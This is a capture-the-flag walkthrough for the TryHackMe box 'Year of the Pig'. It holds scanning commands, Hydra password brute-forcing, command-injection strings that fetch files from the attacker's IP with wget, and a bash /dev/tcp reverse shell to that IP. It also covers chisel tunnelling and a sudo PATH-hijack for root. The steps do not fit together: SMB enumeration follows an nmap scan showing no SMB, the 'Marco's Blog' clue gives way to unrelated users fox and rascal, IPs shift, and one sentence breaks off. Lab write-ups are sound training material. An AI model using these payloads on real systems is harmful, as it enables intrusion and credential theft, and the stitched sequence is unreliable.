







In this walkthrough, we'll go over a challenge (hard) level box called ***Year of the Pig*** on [TryHackMe](https://tryhackme.com/room/yearofthepig) 


Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.209.207 --open
```
Per the nmap result, it looks like port 80 is open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 17:02 EDT
Nmap scan report for 10.10.209.207
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.98 seconds
```


We can run dirseach to see what we can find `dirsearch -u http://10.10.48.50 -r -f -t 50 -x 302,400,403,500,503`:


It looks like there is admin page, we can visit the following link http://10.10.22.113/login.php:


We can see that the login page has a hint in terms of the password. It is a memorable word and followed by two numbers and a special character. we can use cewl to extract the keywords `cewl http://10.10.22.113 -d 4 -o -w yop-keywords.txt`. After that, we can get rid of some of the words manually. We can also 

It looks like we are being asked to enter credentials. I also realize that SMB is also running on this server so let's enumerate SMB as well:
`enum4linux -a -o 10.10.242.71`



User | User Type
----- | ---------
fox | Local User
rascal | Local User

At this point, we can try to brute force the HTTP basic auth with Hydra `hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.242.71 http-get`:



Username | Password
----------- | --------
rascal | jesussaves

We can login with the above credentials:


However, there isn't much here and we can proxy the traffic via Burp after much enumeration, I use the below script to upload a test file:
`"\"; wget http://10.13.6.172:80/test.txt -O /tmp/t.txt; echo\""`


This action is successful:


Another comand injection script `\";echo d2hvYW1p | base64 -d | bash \n`:


We can now create a file called "revshell.sh" and insert the below payload for getting a reverse shell:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.13.6.172/5555 0>&1
```
Using the same method, we upload the file to "/tmp" directory `"\"; wget http://10.13.6.172:80/revshell.sh -O /tmp/revshell.sh; echo\""`

After that we start a listener with nc `nc -nlvp 5555`

We can then run the following command `"\"; bash /tmp/revshell.sh; echo\""`:



After running linpeas, I find a lot of rabbit holes, but one finding is interesting:


SSH is running locally so we can move chisel to the target machine and forward the port:
1. Edit proxychains.conf `socks 127.0.0.1 9999`:

	
2. Run the following on the local machine `./chisel_1.7.6_linux_amd64 server --socks5 -p 1111 --reverse`:
	
3. Run the following on target machine `./chisel_1.7.6_linux_amd64 client 10.13.6.172:1111 R:9999:127.0.0.1:22`:
	
  
We can then try to brute force the SSH service with Hydra `hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1:9999 -v -f`:



Username | Password
----------- | --------
fox | michelle1

We can now SSH into the server with above credentials `ssh -p 9999 fox@127.0.0.1`:


It looks like fox user could run "/usr/sbin/shutdown" as root without any passwords:


We then transfer "/usr/sbin/shutdown" to my local Kali machine and inspected it with `strings shutdown`:


Next we copy "/bin/bash" to "/tmp"
`cp /bin/bash /tmp/bash`

We can now run the following command `sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown` to get a root shell:


I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
